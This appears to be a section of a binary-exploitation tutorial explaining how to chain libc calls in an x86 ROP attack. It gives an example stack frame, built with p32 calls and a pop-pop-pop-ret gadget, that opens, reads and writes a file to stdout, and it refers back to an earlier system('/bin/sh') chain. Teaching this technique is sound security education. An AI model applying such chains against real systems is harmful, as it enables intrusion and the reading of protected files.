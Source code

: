 ```yaml
---
title: Chaining gadgets to execute code
tags:
  - memory
  - corruption
  - binary
  - exploitation
  - rop
  - return
  - oriented
  - programming
  - chain
  - gadgets
  - stack
  - syscalls
---
```


## Creating a ROP chain on x86

Cool, so now we know how to call one `libc` function, let's call multiple.
Let's assume I have a file I want to read the contents of and the name of the
file is already within memory. I have full control of the `stack` and the
`EIP`/`RIP`. We crafted a `stack` frame to call `system()` with the argument
`'/bin/sh'` in the previous section. How do we craft a `stack` frame that calls
`open()` to open a file descriptor with our target file, `read()` to read the
data within the file into memory, and then `write()` to write the data to
`stdout`?

Again, we assume that the attacker has used an information leak to expose
sensitive information allowing them to discover the base of `libc` in memory.
The attacker also knows the location of the `filename_ptr` in memory.

Here's an example stack frame to accomplish this in `x86`:

```python
p32(open_sym)           # address of open() function within libc
p32(pop_pop_pop_ret)    # pop %; pop %; pop %; ret gadget
p32(filename_ptr)       # arg0: pointer to filename string
p32(0x0)                # arg1: O_RDONLY
p32(0x0)                # arg2: 0 for mode
p32(read_sym)           # address of read() function within libc
p32(pop_pop_pop_ret)    # pop %; pop %; pop %; ret gadget
p32(0x3)                # arg0: assume fd of the target is 3
p32(initial)            # arg1: initial data structure in libc (rw-)
p32(1024)               # arg2: num of bytes to read from fd 3
p32(write_sym)          # address of write() function within libc
p32(pop_pop_pop_ret)    # pop %; pop %; pop %; ret gadget
p32(0x1)                # arg0: fd 1 (stdout)
p32(initial)            # arg1: initial data structure with our file content
p32(1024)               # arg2: num of bytes to write to fd 1 (stdout)
p32(exit_sym)           # address of exit() function within libc
```
